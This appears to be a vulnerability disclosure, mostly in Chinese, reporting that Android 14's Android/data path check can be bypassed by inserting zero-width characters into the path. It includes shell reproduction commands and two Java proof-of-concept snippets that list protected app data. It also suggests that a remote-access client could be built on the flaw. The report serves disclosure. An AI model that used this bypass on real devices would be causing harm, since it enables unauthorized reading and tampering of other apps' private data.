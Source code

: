 # Android OS has a logical flaw in determining the Android/data access path

BUG_Author:
hujiayucc

Affected version:
Android 14

Vendor:
https://www.android.com/

Description:

Android操作系统对Android/data访问路径判断存在逻辑缺陷。

系统对Android/data路径字符串过滤没做好正确处理，黑客可以利用这个漏洞任意读取、写入、删除Android/data目录下的所以文件夹和文件。

状态：严重

漏洞环境及工具
- Android OS 14
- Termux 任意版本


复现过程
```shell
ls /sdcard/Android/data
```

执行以上代码，可以看到没有访问权限

```shell
ls /sdcard/Android$'\u200d'/data
```
但是在路径中加入\u200d，可以绕过路径判断

[![](https://oss.hujiayucc.cn/blog/OSS8uli20240603135758.png?x-oss-process=image/resize,m_fixed,h_370,w_600)](https://oss.hujiayucc.cn/blog/OSS8uli20240603135758.png)

经测试，可以对Android/data目录下的所有文件进行任意操作
[![](https://oss.hujiayucc.cn/blog/OSSLXxP20240603140135.png?x-oss-process=image/resize,m_fixed,h_370,w_600)](https://oss.hujiayucc.cn/blog/OSSLXxP20240603140135.png)

Poc1:
```java
File dir = new File("/sdcard/Android\u200d/data");
File[] files = dir.listFiles();
for (File file : files) {
    System.out.println(file);
}
```
Poc2:
```java
File dir = new File("/sdcard/\u200bAndroid/data");
File[] files = dir.listFiles();
for (File file : files) {
    System.out.println(file);
}
```

附加说明
除了**/sdcard/Android$'\u200d'/data**以外，还可以通过**/sdcard/$'\u200b'Android/data**进行越权操作

![](https://oss.hujiayucc.cn/blog/OSS9QMU20240603141624.png)

[![](https://oss.hujiayucc.cn/blog/OSSKMQe20240603141405.png?x-oss-process=image/resize,m_fixed,h_370,w_600)](https://oss.hujiayucc.cn/blog/OSSKMQe20240603141405.png)

演示视频：[点击查看](https://oss.hujiayucc.cn/videos/Screenrecorder-2024-05-25-11-36-10-451.mp4 "点击查看")
通过以上测试，可以制作一个客户端实现远程访问和修改
